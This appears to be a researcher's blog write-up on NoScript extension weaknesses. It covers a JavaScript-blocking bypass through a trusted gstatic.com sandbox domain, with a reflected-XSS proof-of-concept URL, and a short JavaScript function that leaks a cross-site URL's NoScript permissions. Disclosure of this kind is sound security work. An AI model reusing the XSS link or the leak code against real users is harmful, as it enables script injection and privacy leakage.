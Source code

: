 ```yaml
---
title: NoScript part 2
---
```


See <https://ndevtk.github.io/writeups/2022/09/01/noscript/> for context about what NoScript is.

# Bypass to run Javascript

This extension comes preinstalled with a list of trusted websites where javascript is allowed to run, this includes `gstatic.com` that Google treats as a sandbox domain. <https://github.com/hackademix/noscript/blob/cc0471fe52a069b73b20b5e4213f54e8699a3052/src/bg/Settings.js#L218>

While my favorite `gstatic.com` XSS endpoint was over `postMessage` it wont work for this since I can't run javascript to send a message luckily the Google Security Team provided me with the location of a URL reflected XSS 🙂

PoC: <https://www.gstatic.com/vr/ads/playground/metrics.html#assetUrl=https://tinyurl.com/2yrfxf5a>

Normally on Firefox this would have been prevented by NoScript's anti-XSS protection however by reusing the iframe source XSS sink as a way to navigate to the XSS page in the embed it would be considered same-origin initiated which is except from the filter.

This anti-XSS bypass was fixed in <https://github.com/hackademix/noscript/commit/10e2c40c1ca55ee7482705c47d2b3ec41aded4f7> but the sandbox domain is still marked as trusted for compatibility.

May also be other ways to bypass NoScript since there's no way of knowing if code running on <https://code.earthengine.google.com/> or a sandboxed ‘null’ origin iframe is safe.

...Ideally don't have any sandbox domains in your NoScript permissions or even better the least amount necessary, not the first time the default list has been vulnerable <https://thehackerblog.com/the-noscript-misnomer-why-should-i-trust-vjs-zendcdn-net/>

# Leaking the permissions of a cross-site URL

Yay XS-Leaks! (Mainly privacy concern)

```js
async function getPermissions(url) {
  const result = await fetch(
    'https://[ff00::]/nscl/chrome-extension://doojmbjmlfjjnbmnoijecmcbfeoakpjm/syncMessage?msg=' +
      encodeURIComponent(JSON.stringify({id: 'fetchChildPolicy', url: url}))
  );
  const body = await result.json();
  const chunk = JSON.parse(body.chunk);
  return chunk;
}
```

# Some other interesting behaviors

- Tries to implement its own version of CORS <https://github.com/hackademix/nscl/blob/9f59d8d823cc58b2a9c751b4db7715658b68cc67/service/prefetchCSSResources.js#L59>
- Hooks service worker registration <https://github.com/hackademix/nscl/blob/9f59d8d823cc58b2a9c751b4db7715658b68cc67/service/patchWorkers.js#L61>
